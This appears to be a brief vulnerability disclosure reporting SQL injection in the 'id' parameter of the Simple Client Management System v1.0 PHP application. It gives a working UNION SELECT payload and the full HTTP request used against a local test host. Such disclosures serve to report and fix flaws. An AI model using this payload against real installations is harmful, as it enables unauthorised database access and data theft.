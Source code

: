 # Simple-Client-Mnagement-System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15027/simple-client-management-system-php-source-code.html

Vulnerability File: \cms\admin\?page=client/manage_client&id=

Vulnerability location: /cms/admin/?page=client/manage_client&id=, id

[+] Payload: ip/cms/admin/?page=client/manage_client&id=2' union select 1,user(),3,4,5,6,7 --+

```sql
 GET /cms/admin/?page=client/manage_client&id=2%27%20union%20select%201,user(),3,4,5,6,7%20--+ HTTP/1.1 // Leak place ---> id
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=3m0l1n81dvmlo0a3h9oo72q1gp
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/164882693-1f5fdbaa-6e5a-4061-aaa9-918f935d75af.png)

![image](https://user-images.githubusercontent.com/54017627/164882658-e5618b55-9703-4679-a3ec-28fc5c5c2e52.png)

